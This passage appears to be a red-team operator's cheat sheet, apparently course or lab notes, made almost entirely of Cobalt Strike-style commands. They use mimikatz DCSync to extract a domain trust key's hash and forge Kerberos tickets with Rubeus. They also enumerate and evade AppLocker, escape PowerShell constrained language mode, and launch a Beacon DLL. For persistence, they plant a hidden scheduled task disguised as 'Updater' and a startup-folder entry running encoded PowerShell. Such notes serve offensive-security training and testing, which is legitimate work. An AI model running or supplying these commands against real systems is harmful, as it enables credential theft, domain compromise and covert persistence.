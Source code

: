 vs
`execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(objectCategory=trustedDomain)" --domain [current] --attributes distinguishedName,name,trustDirection`
`powerpick Get-DomainObject -Identity "[distinguisedName]" | select objectGuid`
`mimikatz @lsadump::dcsync /domain:[current] /guid:{[objectGuid]}`
get **rc4_hmac_nt** hash in **Out** (not **Out-1**)

User Access
trust: account in the "trusted" (target) domain with the name of the "trusting" (current) domain
in a different trusted domain that you can access, find trust: `execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(objectCategory=user)"`
`execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:[trust]$ /domain:[target] /rc4:[hash] /nowrap`
[[#Pass-the-Ticket]]

next, try [[#Kerberos]] attacks or [[#Misconfigured Certificate Templates]]
- run PowerView or PowerShell AD commands with `-Server [target dc]`
- run Rubeus commands with `/domain:[target] /dc:[target dc]`
- run Certify with `/domain:[target] /ldapserver:[target dc]`
- modify Certify source if necessary: https://github.com/GhostPack/Certify/issues/13#issuecomment-1716046133
## Application Whitelisting
#### Policy Enumeration
**Note:** DLL rules are not enforced

GPO
`powerpick Get-DomainGPO -Domain [domain] | ? { $_.DisplayName -like "*AppLocker*" } | select displayname, gpcfilesyspath`
`download [gpcfilesyspath]\Machine\Registry.pol`

`Install-Module -Name GPRegistryPolicy`
`Parse-PolFile -Path [path]`

Local Machine
`powershell Get-ChildItem "HKLM:Software\Policies\Microsoft\Windows\SrpV2"`
`powershell Get-ChildItem "HKLM:Software\Policies\Microsoft\Windows\SrpV2\[Name]"`
#### PowerShell CLM
Error: only core types in this language mode
`powershell $ExecutionContext.SessionState.LanguageMode`
Solution: use powerpick instead of powershell
#### Beacon DLL
`run C:\Windows\System32\rundll32.exe [payload].dll,StartW`
## Host Persistence (User)
#### Task Scheduler
[[#PowerShell Payload (base64)]]
`execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t schtask -n "Updater" -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc [base64]" -m add -o hourly`

Remove
`execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t schtask -n "Updater" -m remove`
#### Startup Folder
[[#PowerShell Payload (base64)]]
`execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t startupfolder -f "UserEnvSetup" -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc [base64]" -m add`
